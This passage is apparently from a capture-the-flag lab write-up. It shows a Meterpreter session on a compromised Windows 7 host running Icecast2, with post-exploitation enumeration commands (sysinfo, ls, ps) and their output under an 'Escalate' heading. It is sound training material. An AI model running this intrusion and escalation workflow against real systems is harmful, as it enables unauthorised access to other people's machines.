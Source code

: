 ```bash
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

```
We have successfully gained access to the target machine! Use the `help` or `?` command to show you the help menu 

# Escalate

Now that we have gained access, let's start the enumeration
```bash
meterpreter > sysinfo
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > pwd
C:\Program Files (x86)\Icecast2 Win32
meterpreter > ls
Listing: C:\Program Files (x86)\Icecast2 Win32
==============================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
100777/rwxrwxrwx  512000  fil   2004-01-08 09:26:45 -0500  Icecast2.exe
040777/rwxrwxrwx  4096    dir   2019-11-12 18:04:09 -0500  admin
040777/rwxrwxrwx  0       dir   2019-11-12 18:04:09 -0500  doc
100666/rw-rw-rw-  3663    fil   2004-01-08 09:25:30 -0500  icecast.xml
100777/rwxrwxrwx  253952  fil   2004-01-08 09:27:09 -0500  icecast2console.exe
100666/rw-rw-rw-  872448  fil   2002-06-27 21:11:54 -0400  iconv.dll
100666/rw-rw-rw-  188477  fil   2003-04-12 23:29:12 -0400  libcurl.dll
100666/rw-rw-rw-  631296  fil   2002-07-10 22:09:00 -0400  libxml2.dll
100666/rw-rw-rw-  128000  fil   2002-07-10 22:11:54 -0400  libxslt.dll
040777/rwxrwxrwx  0       dir   2019-11-12 18:26:02 -0500  logs
100666/rw-rw-rw-  53299   fil   2002-03-23 09:48:14 -0500  pthreadVSE.dll
100666/rw-rw-rw-  2380    fil   2019-11-12 18:04:09 -0500  unins000.dat
100777/rwxrwxrwx  71588   fil   2003-04-14 04:00:00 -0400  unins000.exe
040777/rwxrwxrwx  0       dir   2019-11-12 18:04:09 -0500  web
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User          Path
 ---   ----  ----               ----  -------  ----          ----
 0     0     [System Process]
 4     0     System
 416   4     smss.exe
 544   536   csrss.exe
 592   536   wininit.exe
 604   584   csrss.exe
 652   584   winlogon.exe
 680   692   svchost.exe
 692   592   services.exe
 700   592   lsass.exe
```